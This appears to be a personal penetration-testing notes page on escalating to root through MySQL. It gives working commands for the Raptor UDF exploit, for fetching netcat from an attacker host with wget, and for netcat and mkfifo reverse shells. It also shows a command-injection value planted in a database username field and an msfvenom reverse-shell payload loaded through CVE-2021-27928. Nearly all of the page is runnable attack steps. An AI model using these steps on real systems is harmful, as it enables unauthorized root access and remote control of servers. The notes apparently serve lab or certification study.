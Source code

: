 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Enumeration

```bash - kali
ps aux | grep mysql
```

Is mysql running as root?
```bash - kali
ps aux | grep root | grep mysql
```

If so, folllow [[MySQL#Raptor User Defined Function]]

![[TechLexicon/Penetration Testing/Reference/P3nT3sT/Grep#Grep'n for passwords]]

![[find#Hunting for config files]]

#### Raptor User Defined Function

![[14._MySQL Raptor Service Exploits]]


---
DELETE OR KEEP THE FOLLOWING?

```sql - target
insert into foo values(load_file('/var/www/raptor_udf2.so'));
```

If everything went according to plan, the `do_system` function based on our malicious UDF will grant us root-level command execution. To check this, we can run the `id` command and redirect the output to a file we can read:

```sql - target
select do_system('id > /var/www/out; chown www-data.www-data /var/www/out');
```

```sql - target
\! sh
```

```sql - target
cat /var/www/out
```

![[Pasted image 20220401112428.png]]

```sql - target
exit
```

The command did indeed execute with the highest privileges. To obtain a reverse shell, we can download our copy of the Netcat binary to the target and then run it as root. We'll continue utilizing our running python web server on port 8295.

On Kali:

```bash - kali
which nc
```

```bash - kali
cp /usr/bin/nc .
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```sql - target
select do_system('wget http://$KALI:80/nc -O /var/www/nc');
```


```sql - target
select do_system('chmod 777 /var/www/nc');
```

![[rlwrap]]

```sql - target
select do_system('/var/www/nc $KALI 443 -e /bin/bash');
```

---

#### Reverse shell DB injection
![[Pasted image 20220324115631.png|1000]]

![[Pasted image 20221115145406.png]]

First, create the reverse shell file.
```bash - target
cat > script.sh <<EOF
```

```bash - target
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 80 >/tmp/f
```

```bash - target
EOF
```

Make it executable.
```bash - target
chmod +x script.sh
```

Log in to mysql.
```bash - target
mysql -u $USER -p$PASSWORD
```

```sql - target
show databases;
```

```sql - target
use <DATABASE>;
```

```sql - target
show tables;
```

```sql - target
describe <TABLE>;
```

![[Pasted image 20220324115412.png]]

```sql - target
select username, password_expiry from <TABLE>;
```

```sql - target
update <TABLE> set username=' |/tmp/Tools/script.sh';
```

```sql - target
update <TABLE> set password_expiry = (select now() + interval 7 day);
```

```sql - target
select username, password_expiry from <TABLE>;
```

![[Pasted image 20220324115509.png]]

#### CVE-2021-27928

MySQL version 10.3.25

https://github.com/Al1ex/CVE-2021-27928

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf-so -o reverse.so
```

Copy the file to the target machine. Now stand up a listener on port 443 and issue the following command in the MySQL console to trigger the shell.

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[rlwrap]]

```mysql - target
SET GLOBAL wsrep_provider="/tmp/reverse.so";
```

